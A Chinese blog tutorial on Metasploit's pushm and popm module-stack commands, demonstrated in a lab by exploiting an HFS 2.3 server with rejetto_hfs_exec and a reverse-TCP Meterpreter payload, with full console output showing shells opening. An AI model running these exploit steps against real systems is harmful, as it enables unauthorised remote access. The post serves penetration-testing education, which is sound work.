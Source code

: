 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit之pushm和popm命令
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit之pushm和popm命令
lock: need
---
```


# Metasploit之pushm和popm命令

使用pushm命令可以将当前模块放入模块栈中，而popm将位于栈顶的模块弹出。优势在于可以实现快捷操作，从而为测试者节省大量的时间和精力。

这里考虑一个场景：我们正在测试一台有多种漏洞的内部网络服务器，而且要对其中的所有系统都进行两种不同的渗透测试。为了能对每台服务器都进行这两种测试，我们就需要一个能在这两个渗透模块之间快速切换的机制。在这种情况下就可以使用pushm和popm命令。我们可以使用一个渗透模块对服务器的某个漏洞进行测试，然后将这个模块放入模块栈中，操作完成之后再载入另一个渗透模块。使用第二个模块完成任务之后，就可以使用popm命令将第一个模块(仍然保持之前的所有选项设置)从栈中弹出。

这里，我们在目标机上部署了HFS2.3服务，如下图：

![img](https://img-blog.csdnimg.cn/20190127204454193.png)

接着，我们利用HFS 2.3的漏洞拿到目标机的Meterpreter。

```
msfconsole
msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > set RHOST 192.168.175.130
RHOST => 192.168.175.130
msf5 exploit(windows/http/rejetto_hfs_exec) > set RPORT 8080
RPORT => 8080
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/SM65nXQp
[*] Local IP: http://192.168.175.128:8080/SM65nXQp
[*] Server started.
[*] Sending a malicious request to /
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Payload request received: /SM65nXQp
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1042) at 2019-01-25 15:41:58 +0800
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 2 opened (192.168.175.128:4444 -> 192.168.175.130:1051) at 2019-01-25 15:41:58 +0800
[!] Tried to delete %TEMP%\GjPFpxreCevs.vbs, unknown result
[*] Server stopped.

meterpreter >
```

接着，我们通过background命令将当前会话放入后台，利用pushm命令将模块放入栈中，然后利用 exploit/multi/handler 模块渗透目标主机，如下：

```
meterpreter > background
[*] Backgrounding session 2...
msf5 exploit(windows/http/rejetto_hfs_exec) > pushm 
msf5 exploit(windows/http/rejetto_hfs_exec) > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 3 opened (192.168.175.128:4444 -> 192.168.175.130:1054) at 2019-01-25 15:46:53 +0800

meterpreter > 
```

此时，我们就使用 pushm 命令将 windows/http/rejetto_hfs_exec 模块放到了栈中。并加载了 exploit/multi/handler 模块。当使用 exploit/multi/handler 模块完成操作之后，就可以使用popm命令从栈中再次加载 windows/http/rejetto_hfs_exec 模块，如下所示：

```
meterpreter > background
[*] Backgrounding session 3...
msf5 exploit(multi/handler) > popm
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.175.130  yes       The target address range or CIDR identifier
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.175.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Using URL: http://0.0.0.0:8080/8rkX9sv1CkhYsB
[*] Local IP: http://192.168.175.128:8080/8rkX9sv1CkhYsB
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /8rkX9sv1CkhYsB
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 4 opened (192.168.175.128:4444 -> 192.168.175.130:1067) at 2019-01-25 16:23:11 +0800

[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\gWZaxa.vbs' on the target

meterpreter > 
```

从模块栈中弹出的windows/http/rejetto_hfs_exec跟之前的设置一样，所以无须再设置这个模块的选项了。

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
